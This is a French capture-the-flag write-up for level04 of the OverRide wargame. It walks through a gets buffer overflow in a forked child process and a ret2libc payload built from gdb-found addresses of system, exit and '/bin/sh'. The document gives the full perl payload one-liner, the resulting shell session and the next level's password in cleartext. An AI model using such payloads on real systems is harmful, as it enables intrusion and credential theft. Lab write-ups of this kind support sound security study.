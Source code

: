 # level04

Ce programme fait un fork. Le main (`if ( v9) ...`) surveille le contenu de l'offset 44 dans le child via la fonction `ptrace` avec le mode `PTRACE_PEEKUSER`. Cette valeur est mise dans la variable v8, puis verifiée dans une boucle infinie.

Le child fait un `gets`, ce qui pourrait nous permettre de faire un buffer overflow, tant qu'on garde la valeur de l'offset 44 à 11.

On fait segfault le child à l'offset 156.

On essaye la méthode `RET2LIBC` pour executer notre payload.

On commence par chercher l'adresse de la fonction `system` :
```bash
(gdb) info function system
All functions matching regular expression "system" :
...
0xf7e6aed0  system
```
L'adresse de la fonction `exit`:
```bash
(gdb) info function exit
All functions matching regular expression "exit" :
...
0xf7e5eb70  exit
```
Et l'adresse d'une occurence de notre commande à executer :
```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```
On construit notre payload :
```bash
level04@OverRide:~$ perl -e 'print "A"x156 ."\xd0\xae\xe6\xf7"."\x70\xeb\xe5\xf7"."\xec\x97\xf8\xf7";' > /tmp/payload
```
Et on arrive à lancer un terminal :
```bash
level04@OverRide:~$ cat /tmp/payload - | ./level04 
Give me some shellcode, k

cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
